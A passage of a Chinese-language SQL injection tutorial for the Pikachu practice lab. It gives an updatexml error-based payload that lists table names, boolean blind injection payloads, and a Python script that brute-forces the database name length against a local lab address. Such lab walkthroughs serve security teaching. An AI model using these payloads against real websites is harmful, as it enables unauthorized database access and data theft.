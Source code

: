 如果因为网页显示有长度限制可以使用 limit 语句来依次显示所有的表名，通过修改 limit 的第一个参数即可显示不同的表名。

```sql
kobe' and updatexml(1, concat(0x7e, (select table_name
from information_schema.tables where table_schema = database() limit 0, 1)), 1) #
```

后续只是替换不同的 sql 语句，和前面内容相同。

### 布尔盲注

盲注是因为单击查询后，页面没有回显字段，且 web 页面返回 true 或 false；

所以构成表达式后再通过脚本不停的执行，进而判断出想要的结果。

打开靶场中的**盲注(base on boolian)**

#### 判断数据库长度

length() 该函数是 mysql 中判断长度的函数。

```sql
kobe' and length(database()) = 7 #
```

若成功返回正确的结果，则代表符合条件，进而继续判断；反之则不符合条件。

python脚本：

```python
# 布尔盲注：获取数据库长度
import requests

ip = 'http://192.168.31.195/'

parameter = "kobe' and length(database()) = %d --+"


for i in range(1, 10):
    url = ip + 'pikachu/vul/sqli/sqli_str.php?name=' + (parameter % i) + "&submit=查询"

    response = requests.get(url)

    html = response.text

    if html.find("您输入的username不存在，请重新输入！") == -1:
        print("The database length is %d" % i)
```

#### 查询数据库名称

使用 substr 对数据库名做分割，并转换成 ascii 码，进而判断对应位置的字符是什么。

使用 ASCII码是因为，浏览器不区分大小写，所以使用ASCII码更能准确地判断字符。

```sql
kobe' and ascii(substr(database(), 1, 1)) = 32 #
```

